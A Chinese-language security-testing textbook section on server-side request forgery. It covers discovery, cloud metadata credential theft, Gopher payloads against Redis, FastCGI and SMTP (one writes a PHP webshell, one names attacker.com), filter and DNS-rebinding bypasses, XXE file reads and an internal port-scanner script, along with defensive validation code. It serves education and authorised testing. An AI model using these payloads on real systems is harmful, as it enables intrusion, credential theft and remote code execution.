


## 14.18 SSRF测试技巧

服务端请求伪造（SSRF）是 OWASP Top 10 2021 新增的 A10 类风险，也是云环境中最具破坏力的漏洞类型之一。与其他 Web 漏洞不同，SSRF 的攻击面不仅限于应用本身，还能延伸到整个内部网络、云基础设施和相邻服务。本节从测试者视角出发，系统讲解 SSRF 的发现、验证、利用和绕过技巧。

### 14.18.1 SSRF漏洞识别：哪些功能容易出现SSRF

SSRF 漏洞的本质是**应用替用户发起网络请求**。测试时首先识别所有可能触发服务端 HTTP 请求的功能点：

| 功能类型 | 典型入口 | SSRF可能性 |
|---------|---------|-----------|
| URL预览/抓取 | 网页书签、链接预览、RSS导入 | 极高 |
| 图片处理 | 头像URL、图片外链、海报生成 | 高 |
| 文件导入 | 从URL导入文档、CSV导入 | 高 |
| Webhook回调 | 第三方通知URL配置 | 高 |
| PDF/报告生成 | HTML转PDF、发票生成 | 高 |
| API代理 | 转发请求到第三方API | 中高 |
| 健康检查 | 监控系统探活URL | 中 |
| XML解析 | SOAP/XML-RPC/SAML | 中（XXE关联） |
| 邮件发送 | 自定义SMTP服务器 | 中 |
| OAuth回调 | redirect_uri配置 | 中 |

测试策略：先通过功能梳理找到所有接受 URL 作为输入的端点，再逐一验证是否在服务端发起了请求。

### 14.18.2 基础SSRF验证流程

**第一步：确认服务端是否发起了请求**

最简单的验证方法是使用带外域名（Out-of-Band, OOB）：

```bash
# 使用 Burp Collaborator
# 在输入框中填入：
http://your-collaborator-id.burpcollaborator.net

# 使用 Interactsh（开源替代）
interactsh-client
# 输出类似 c8abc1234.interact.sh，填入：
http://c8abc1234.interact.sh
```

如果收到 DNS 查询或 HTTP 请求，说明服务端确实发起了请求。

**第二步：探测内网可达性**

```text
# 回环地址测试
http://127.0.0.1
http://localhost
http://0.0.0.0
http://[::1]
http://0177.0.0.1          # 八进制IP
http://2130706433           # 十进制IP
http://0x7f000001           # 十六进制IP

# 内网段测试
http://10.0.0.1
http://172.16.0.1
http://192.168.1.1

# 链路本地地址
http://169.254.169.254      # AWS/GCP/阿里云元数据
http://100.100.100.200      # 阿里云元数据（旧版）
http://metadata.google.internal  # GCP元数据
```

**第三步：协议探测**

```text
# 文件读取
file:///etc/passwd
file:///etc/hostname
file:///proc/self/environ
file:///proc/self/cmdline

# HTTP协议变体
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:8080
http://127.0.0.1:3306       # MySQL
http://127.0.0.1:5432       # PostgreSQL
http://127.0.0.1:6379       # Redis
http://127.0.0.1:9200       # Elasticsearch
http://127.0.0.1:11211      # Memcached
http://127.0.0.1:27017      # MongoDB

# Dict协议（部分HTTP库支持）
dict://127.0.0.1:6379/info

# Gopher协议（SSRF利用的核心协议）
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
```

### 14.18.3 云元数据服务利用

云元数据服务是 SSRF 最高价值的利用目标，泄露的凭据可导致整个云环境被接管。

**AWS元数据服务（IMDSv1 → IMDSv2）**

```text
# IMDSv1：直接GET即可
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>

# IMDSv2：需要先获取Token，再带Token请求
# Step 1: PUT获取Token（TTL设为最大21600秒）
PUT http://169.254.169.254/latest/api/token
X-aws-ec2-metadata-token-ttl-seconds: 21600

# Step 2: 带Token请求
GET http://169.254.169.254/latest/meta-data/
X-aws-ec2-metadata-token: <token>
```

> **IMDSv2的绕过思路**：IMDSv2要求PUT请求带自定义Header，这在大多数SSRF场景下无法直接满足（SSRF通常只能控制URL）。但如果应用存在**请求头注入**漏洞（CRLF注入），或者SSRF是通过**HTTP客户端库**实现且支持自定义Header，则仍可能绕过。此外，某些场景下可利用ECS Task Metadata（`http://169.254.170.2/v2/credentials/<id>`）绕过IMDSv2限制。

**阿里云元数据服务**

```text
# 基础元数据
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/private-ipv4

# RAM角色凭据
http://100.100.100.200/latest/meta-data/ram/security-credentials/<role-name>

# 用户数据（可能含密码、配置）
http://100.100.100.200/latest/user-data/
```

**GCP元数据服务**

```text
# 基础元数据
http://metadata.google.internal/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/

# 服务账号Token（scope参数必须为"default"才能获取完整token）
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token?scopes=default

# 注意：GCP要求必须带 Metadata-Flavor: Header
# 在SSRF中如果无法注入Header，可尝试用?alt=json等参数绕过
```

**Azure元数据服务（IMDS）**

```text
http://169.254.169.254/metadata/instance?api-version=2021-02-01
# 必须带 Header: Metadata: true

# 管理身份凭据
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```

**元数据利用的完整攻击链**（以AWS为例）：



### 14.18.4 协议层面的深度利用

**Gopher协议：SSRF的"瑞士军刀"**

Gopher协议之所以在SSRF中地位特殊，是因为它能构造任意TCP数据包。HTTP请求有固定的格式约束，而Gopher允许发送字节级精确控制的数据到任意端口。

```text
# Gopher协议格式
gopher://<host>:<port>/_<payload>
# _后面的数据会原样发送到目标端口
```

**Redis未授权访问（通过Gopher）**

```bash
# 原始Redis命令
FLUSHALL
SET x "<?php system($_GET['cmd']); ?>"
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SAVE

# URL编码后构造Gopher payload
# 使用Gopherus工具自动生成
python gopherus.py --exploit redis

# 生成的payload类似：
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0Ax%0D%0A%2431%0D%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0D%0A...
```

**FastCGI（PHP-FPM）利用**

```bash
# 如果PHP-FPM监听在127.0.0.1:9000，可通过Gopher发送FastCGI请求
# 执行任意PHP代码
python gopherus.py --exploit fastcgi

# 可实现的效果：
# - 读取源码（php://filter/read=convert.base64-encode/resource=index.php）
# - 执行系统命令（disable_functions绕过）
# - 写入WebShell
```

**SMTP邮件伪造**

```bash
# 通过Gopher向SMTP服务（25端口）发送原始命令
# 可伪造发件人发送钓鱼邮件
gopher://127.0.0.1:25/_HELO%20attacker.com%0D%0AMAIL%20FROM:<admin@company.com>%0D%0ARCPT%20TO:<victim@company.com>%0D%0ADATA%0D%0ASubject:%20Urgent%20Password%20Reset%0D%0A%0D%0AClick%20here...%0D%0A.%0D%0AQUIT
```

**MySQL未授权访问**

```bash
# MySQL在无密码或已知密码情况下，可通过Gopher发送认证包
# 需要知道MySQL的认证challenge（通常通过第一次连接获取）
python gopherus.py --exploit mysql
# 输入root密码后生成payload
```

### 14.18.5 SSRF绕过技巧详解

当目标存在防护措施时，需要使用各种绕过技巧。以下是系统化的绕过方法论。

**IP地址表示法绕过**

```text
# 以下全部等价于 127.0.0.1
http://127.0.0.1
http://0x7f000001            # 十六进制
http://2130706433            # 十进制整数
http://017700000001          # 八进制
http://127.1                 # 省略补零
http://127.0.1               # 三段表示
http://[::1]                 # IPv6回环
http://[::ffff:127.0.0.1]   # IPv4-mapped IPv6
http://[0:0:0:0:0:ffff:127.0.0.1]  # 完整IPv6写法
http://0177.0.0.1            # 混合八进制
http://127.000.000.001       # 前导零（某些实现视为八进制）

# 以下等价于 169.254.169.254
http://0xa9fea9fe            # 十六进制
http://2852039166            # 十进制
http://0251.0376.0251.0376   # 八进制
```

**URL解析差异绕过**

不同编程语言和HTTP库对URL的解析规则存在微妙差异，这是绕过防护的关键：

```text
# @符号利用：user@host 格式
# 很多校验逻辑只检查@后面的host部分
http://allowed-domain.com@127.0.0.1
http://127.0.0.1#@allowed-domain.com    # 片段标识符
http://127.0.0.1%23@allowed-domain.com  # 编码的#

# 反斜杠利用
http://allowed-domain.com\@127.0.0.1
# 某些解析器将\视为/的等价

# 双重URL编码
http://127.0.0.1  →  http://%31%32%37%2e%30%2e%30%2e%31
# 如果解码两次，第一次解码后变成正常的127.0.0.1

# Unicode/特殊编码
http://127。0。0。1          # 全角句号（某些正则不匹配）
http://①②⑦.⓪.⓪.①          # 圈数字
```

**DNS重绑定攻击**

DNS重绑定是绕过IP验证最强力的技术。原理是利用DNS解析与HTTP请求之间的时间差：



**实际操作方法**：

```bash
# 方法1：自建DNS服务器（rbndr工具）
# 使用 rbndr (Rebinding DNS Server)
# 配置交替返回两个IP的DNS
# DNS记录TTL设为0，确保每次查询都重新解析

# 方法2：使用 Taviso 的 rbndr
git clone https://github.com/taviso/rbndr.git
cd rbndr && make
./rbndr 1.2.3.4 127.0.0.1
# evil.com 的A记录将交替返回 1.2.3.4 和 127.0.0.1

# 方法3：使用 1u.ms 等公共服务
# 1u.ms 的子域名解析规则：
# 7f000001.1u.ms → 127.0.0.1（将十六进制转为IP）
http://7f000001.1u.ms    # 解析到 127.0.0.1
http://0a000001.1u.ms    # 解析到 10.0.0.1

# 方法4：使用nip.io/sslip.io
http://127.0.0.1.nip.io         # 解析到 127.0.0.1
http://app.127.0.0.1.nip.io     # 解析到 127.0.0.1
```

**重定向绕过**

如果白名单只在初始URL上做校验，不跟踪重定向后的真实目标，则可通过重定向绕过：

```python
# 搭建重定向服务
from flask import Flask, redirect
app = Flask(__name__)

@app.route('/ssrf')
def ssrf_redirect():
    return redirect('http://127.0.0.1/')  # 重定向到内网

@app.route('/aws')
def aws_redirect():
    return redirect('http://169.254.169.254/latest/meta-data/')

app.run(host='0.0.0.0', port=8080)
```

```text
# 使用方法：输入到目标的URL字段
http://your-server.com/ssrf    → 302 → http://127.0.0.1/
http://your-server.com/aws     → 302 → http://169.254.169.254/latest/meta-data/

# 也可利用已知的开放重定向漏洞
http://allowed-domain.com/redirect?url=http://127.0.0.1
```

**HTTP重定向状态码参考**：

| 状态码 | 含义 | SSRF利用 |
|--------|------|---------|
| 301 | 永久重定向 | 大多数HTTP客户端自动跟随 |
| 302 | 临时重定向 | 最常用，所有客户端跟随 |
| 303 | See Other | POST变GET后跟随 |
| 307 | 临时重定向（保持方法） | 保持POST方法跟随 |
| 308 | 永久重定向（保持方法） | 保持POST方法跟随 |
| meta refresh | HTML标签重定向 | 部分解析器支持 |

**IPv6特殊地址绕过**

```text
# IPv6回环地址的各种写法
http://[::1]
http://[0000:0000:0000:0000:0000:0000:0000:0001]
http://[::ffff:127.0.0.1]       # IPv4-mapped
http://[0:0:0:0:0:ffff:7f00:1]  # IPv4-mapped（十六进制）

# 很多WAF/过滤器对IPv6地址的正则覆盖不全
# 尤其是 IPv4-mapped IPv6 地址常被遗漏
```

**非标准端口与协议绕过**

```text
# 如果只允许http/https，尝试：
gopher://127.0.0.1:6379/_...
dict://127.0.0.1:6379/info
file:///etc/passwd
tftp://attacker.com/file       # 部分HTTP库支持

# 如果只允许特定端口，尝试用URL中的@/端口混淆
http://127.0.0.1:80@allowed.com  # 某些解析器优先取@前面的host
http://allowed.com:80@127.0.0.1  # 另一种解析方式
```

### 14.18.6 盲SSRF的探测与利用

盲SSRF（Blind SSRF）指服务端确实发起了请求，但响应内容不返回给用户。这是实际测试中最常见的场景。

**带外数据检测（OOB Detection）**

```bash
# 1. DNS查询检测（最可靠）
# 使用 Burp Collaborator / Interactsh / 自建DNS
# 只要收到DNS查询记录即可确认SSRF存在
# 即使HTTP请求被防火墙拦截，DNS查询也可能成功

# 2. HTTP请求检测
# 监听服务器收到目标的HTTP请求
# 注意：如果目标有出站防火墙，可能收不到

# 3. 时间延迟检测
# 如果OOB不可用，通过响应时间差异判断
http://127.0.0.1:22         # 开放端口 → 响应快
http://127.0.0.1:99999      # 关闭端口 → 连接超时
```

**盲SSRF的端口扫描**

```python
# 通过响应时间差异进行端口扫描
import requests
import time

target_url = "https://vulnerable-app.com/fetch?url={}"
ports_to_scan = [22, 80, 443, 3306, 5432, 6379, 8080, 9200, 27017]

for port in ports_to_scan:
    start = time.time()
    try:
        resp = requests.get(target_url.format(f"http://127.0.0.1:{port}"), timeout=10)
        elapsed = time.time() - start
        status = resp.status_code
    except:
        elapsed = time.time() - start
        status = "timeout"
    
    # 开放端口通常响应快（或返回特定状态码）
    # 关闭端口通常超时或返回连接错误
    print(f"Port {port}: status={status}, time={elapsed:.2f}s")
```

**盲SSRF利用策略**

即使看不到响应内容，仍有多种利用方式：

```text
# 1. 内网服务识别
# 通过状态码和响应时间差异判断内部服务类型
# Redis（6379）：响应极快，状态码通常为200
# MySQL（3306）：响应较快，状态码可能为400/500
# SSH（22）：连接被拒，状态码可能为502

# 2. SSRF链式攻击
# 通过Gopher协议向内部服务发送命令
# 即使看不到响应，命令仍会被执行
# 例如：通过Redis写入WebShell后，通过HTTP访问WebShell即可获得回显

# 3. Web缓存投毒（Cache Poisoning）
# 如果SSRF点经过CDN/缓存层
# 可通过SSRF让缓存存储内网响应
# 后续请求命中缓存时即可看到内网数据

# 4. 服务探测
# 向不同IP/端口发送请求
# 根据响应时间/状态码/错误信息绘制内网拓扑图
```

### 14.18.7 特定场景的SSRF测试

**PDF生成器中的SSRF**

Web应用的HTML转PDF功能是SSRF的经典高危场景。Wkhtmltopdf、Puppeteer、Headless Chrome等渲染引擎会执行HTML中的外部资源引用：

```html
<!-- 嵌入在HTML中的SSRF payload -->
<!-- Wkhtmltopdf特有 -->
<script>
  x = new XMLHttpRequest();
  x.open("GET", "file:///etc/passwd", false);
  x.send();
  document.write(x.responseText);
</script>

<!-- iframe方式 -->
<iframe src="http://127.0.0.1:8080/admin"></iframe>

<!-- img标签（最常用，不依赖JS） -->


<!-- link标签加载CSS（可触发请求） -->
<link rel="stylesheet" href="http://169.254.169.254/latest/meta-data/">

<!-- object/embed标签 -->
<object data="http://169.254.169.254/latest/meta-data/"></object>

<!-- SVG外部实体 -->
<svg><use href="http://127.0.0.1/"></use></svg>

<!-- CSS中的url() -->
<style>
  body { background: url('http://169.254.169.254/latest/meta-data/'); }
</style>
```

**XML解析中的SSRF（XXE关联）**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<root>&xxe;</root>

<!-- SVG中的XXE -->
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="100" height="100">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**Webhook/回调URL中的SSRF**

```text
# Webhook通常接受用户配置的回调URL
# 攻击者可将回调指向内网

# 直接指向内网
http://127.0.0.1:8080/admin/delete?user=1

# 通过DNS重绑定绕过验证
http://evil.rebind.network/ssrf

# 通过重定向链绕过
http://legit-callback.com/redirect?to=http://169.254.169.254/latest/meta-data/
```

**图片处理中的SSRF**

```text
# 很多应用支持通过URL加载图片
# 图片处理库可能支持多种协议

# SVG文件（本质是XML）
# 上传包含外部引用的SVG文件
<svg xmlns="http://www.w3.org/2000/svg">
  <image href="http://169.254.169.254/latest/meta-data/" />
</svg>

# 图片URL参数
# 头像URL、海报URL等
avatar_url=http://169.254.169.254/latest/meta-data/

# ImageMagick处理
# 某些ImageMagick配置支持通过mvg/msl读取外部资源
# push graphic-context
# viewbox 0 0 640 480
# fill 'url(http://127.0.0.1/)'
# pop graphic-context
```

### 14.18.8 SSRF测试工具链

**Burp Suite SSRF测试流程**

```text
1. 使用 Burp Scanner 扫描 → 自动识别SSRF点
2. 使用 Intruder 爆破内网IP/端口
3. 使用 Collaborator 验证OOB请求
4. 使用 Repeater 手动测试各种Payload
5. 使用 Burp Extensions:
   - Collaborator Everywhere（自动注入Collaborator）
   - Param Miner（隐藏参数发现）
   - Autorize（权限测试配合SSRF）
```

**自动化测试工具**

```bash
# SSRFmap：自动化SSRF利用工具
pip install ssrfmap
ssrfmap -r request.txt -p url -m portscan,readfile,redis
# -r: HTTP请求文件（Burp格式）
# -p: 存在SSRF的参数名
# -m: 使用的利用模块

# Gopherus：生成Gopher协议Payload
git clone https://github.com/tarunkant/Gopherus.git
python gopherus.py --exploit redis      # Redis利用
python gopherus.py --exploit fastcgi    # FastCGI利用
python gopherus.py --exploit mysql      # MySQL利用
python gopherus.py --exploit smtp       # SMTP邮件伪造
python gopherus.py --exploit zabbix     # Zabbix利用
python gopherus.py --exploit pymemcache # Memcached利用

# Interactsh：OOB交互检测
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
interactsh-client
# 输出域名用于SSRF payload，监听DNS/HTTP/SMTP交互

# httprebind：自动化DNS重绑定
# https://github.com/daeken/httprebind
```

**内网扫描辅助脚本**

```python
#!/usr/bin/env python3
"""SSRF内网端口扫描辅助脚本"""
import requests
import sys
from concurrent.futures import ThreadPoolExecutor, as_completed

SSRF_URL = "https://target.com/fetch?url={}"
TIMEOUT = 5
COMMON_PORTS = [21, 22, 25, 80, 443, 3306, 5432, 6379, 8080, 8443, 9200, 9300, 11211, 27017]

def probe(ip, port):
    url = SSRF_URL.format(f"http://{ip}:{port}")
    try:
        r = requests.get(url, timeout=TIMEOUT, allow_redirects=False)
        return (ip, port, r.status_code, len(r.text), r.elapsed.total_seconds())
    except requests.Timeout:
        return (ip, port, "TIMEOUT", 0, TIMEOUT)
    except Exception as e:
        return (ip, port, str(type(e).__name__), 0, 0)

def scan_network(base_ip, ports):
    results = []
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = []
        for i in range(1, 255):
            ip = f"{base_ip}.{i}"
            for port in ports:
                futures.append(executor.submit(probe, ip, port))
        
        for future in as_completed(futures):
            ip, port, status, size, elapsed = future.result()
            if status not in ("TIMEOUT", "ConnectionError"):
                print(f"[+] {ip}:{port} → status={status}, size={size}, time={elapsed:.2f}s")
                results.append((ip, port, status, size))
    
    return results

if __name__ == "__main__":
    # 扫描 172.16.0.0/24 的常见端口
    scan_network("172.16.0", COMMON_PORTS)
```

### 14.18.9 SSRF防护机制与对应绕过

理解防御才能更好地测试。以下是常见防护措施及其绕过思路的系统对照：

| 防护措施 | 防护原理 | 绕过方法 |
|---------|---------|---------|
| URL白名单 | 只允许特定域名 | 开放重定向、子域名接管、DNS重绑定 |
| IP黑名单 | 拒绝127.0.0.1等地址 | IP编码变形（十六进制/八进制/十进制）、IPv6、IPv4-mapped IPv6 |
| 协议限制 | 只允许http/https | 如果支持HTTP重定向可跳转到file://等协议 |
| DNS解析检查 | 解析后检查IP是否为内网 | DNS重绑定（TOCTOU问题） |
| 网络层隔离 | 容器/服务网络隔离 | 同一VPC内的其他服务、共享元数据服务 |
| 响应限制 | 不返回响应内容 | 盲SSRF通过OOB、时间差、缓存投毒 |
| IMDSv2 | 要求自定义Header获取Token | 请求头注入、ECS Task Metadata绕过 |

**TOCTOU（Time of Check to Time of Use）问题详解**：

这是SSRF防护中最经典的漏洞模式。应用在验证URL时解析DNS得到合法IP，但在实际发起请求时再次解析DNS，此时DNS返回的IP可能已变为内网地址：

```python
# 有漏洞的校验逻辑
def fetch_url(user_url):
    # 检查阶段：第一次DNS解析
    ip = dns_resolve(user_url)
    if is_private_ip(ip):
        raise ValueError("不允许访问内网地址")
    
    # 使用阶段：HTTP客户端发起请求，可能再次DNS解析
    response = http_client.get(user_url)  # 此时可能解析到不同IP
    return response

# 修复方案：在解析阶段绑定IP，请求阶段直接使用IP
def fetch_url_fixed(user_url):
    ip = dns_resolve(user_url)
    if is_private_ip(ip):
        raise ValueError("不允许访问内网地址")
    
    # 将URL中的域名替换为已解析的IP
    safe_url = user_url.replace(parsed.hostname, ip)
    response = http_client.get(safe_url, headers={"Host": parsed.hostname})
    return response
```

### 14.18.10 常见误区与纠正

**误区一：只测试127.0.0.1就够了**

纠正：SSRF的攻击面远不止回环地址。内网所有IP段（10.0.0.0/8、172.16.0.0/12、192.168.0.0/16）、链路本地地址（169.254.0.0/16）、云元数据服务、相邻容器/微服务都应纳入测试范围。

**误区二：SSRF只能读取数据**

纠正：通过Gopher协议，SSRF可以向Redis、MySQL、FastCGI等服务发送任意命令，实现远程代码执行。通过SMTP可伪造邮件，通过Memcached可篡改缓存。SSRF的威力取决于内部网络暴露的服务。

**误区三：响应不返回就没法利用**

纠正：盲SSRF同样危险。可通过OOB确认漏洞存在，通过Gopher协议发送命令（即使看不到响应），通过时间差进行端口扫描，通过DNS重绑定结合缓存投毒获取数据。

**误区四：禁用Gopher和File协议就安全了**

纠正：即使只允许HTTP协议，仍可通过重定向跳转到内网地址。而且内网服务通过HTTP暴露的Web管理界面（如Elasticsearch:9200、Kibana:5601、RabbitMQ:15672）同样可以通过HTTP SSRF访问。

**误区五：IP校验通过正则表达式就够了**

纠正：IP地址的表示形式极其多样（十六进制、八进制、十进制、IPv6、混合格式），正则很难覆盖所有变体。正确的做法是先将输入解析为标准化IP地址，再对标准格式做校验：

```python
import ipaddress
import socket
from urllib.parse import urlparse

def is_safe_url(url):
    """正确的SSRF防护校验"""
    parsed = urlparse(url)
    
    # 1. 协议白名单
    if parsed.scheme not in ('http', 'https'):
        return False
    
    # 2. DNS解析
    try:
        ip = socket.gethostbyname(parsed.hostname)
    except socket.gaierror:
        return False
    
    # 3. 解析为标准IP对象后检查
    ip_obj = ipaddress.ip_address(ip)
    
    # 4. 检查所有危险地址类别
    if ip_obj.is_loopback:       # 127.0.0.0/8, ::1
        return False
    if ip_obj.is_private:        # 10/8, 172.16/12, 192.168/16
        return False
    if ip_obj.is_link_local:     # 169.254/16, fe80::/10
        return False
    if ip_obj.is_reserved:       # 其他保留地址
        return False
    
    # 5. IPv4-mapped IPv6检查
    if isinstance(ip_obj, ipaddress.IPv6Address):
        if ip_obj.ipv4_mapped:   # ::ffff:x.x.x.x
            mapped = ip_obj.ipv4_mapped
            if mapped.is_private or mapped.is_loopback:
                return False
    
    return True
```

### 14.18.11 实战测试检查清单

以下是系统化SSRF测试的完整检查清单：

```text
□ 功能识别阶段
  □ 列出所有接受URL输入的端点
  □ 检查文件上传功能（SVG、HTML、Office文档）
  □ 检查Webhook/回调URL配置
  □ 检查PDF/报告生成功能
  □ 检查XML/SOAP接口
  □ 检查OAuth redirect_uri参数

□ 漏洞验证阶段
  □ 使用OOB（Collaborator/Interactsh）确认服务端发起了请求
  □ 测试file://协议读取本地文件
  □ 测试回环地址访问
  □ 测试云元数据服务地址

□ 绕过测试阶段
  □ IP编码变形（十六进制/八进制/十进制/IPv6）
  □ URL解析差异（@符号/反斜杠/编码/片段标识符）
  □ 重定向绕过（302/307/meta refresh）
  □ DNS重绑定
  □ 协议降级/切换

□ 利用深化阶段
  □ 内网端口扫描（识别开放服务）
  □ 云元数据凭据获取
  □ Gopher协议发送Redis/FastCGI/MySQL命令
  □ 盲SSRF的OOB数据外带
  □ Web缓存投毒利用

□ 影响评估阶段
  □ 利用获取的凭据访问云资源
  □ 通过内网服务实现RCE
  □ 数据泄露的范围评估
  □ 横向移动的可能性评估
```

SSRF的价值在于它是一扇通向整个内部网络的大门。从一个URL参数开始，可能打通云元数据服务、获取IAM凭据、访问数据库、执行系统命令——这是一条完整的攻击链。测试时务必跳出"只看回环地址"的思维，将整个内部网络视为潜在的攻击面。

***
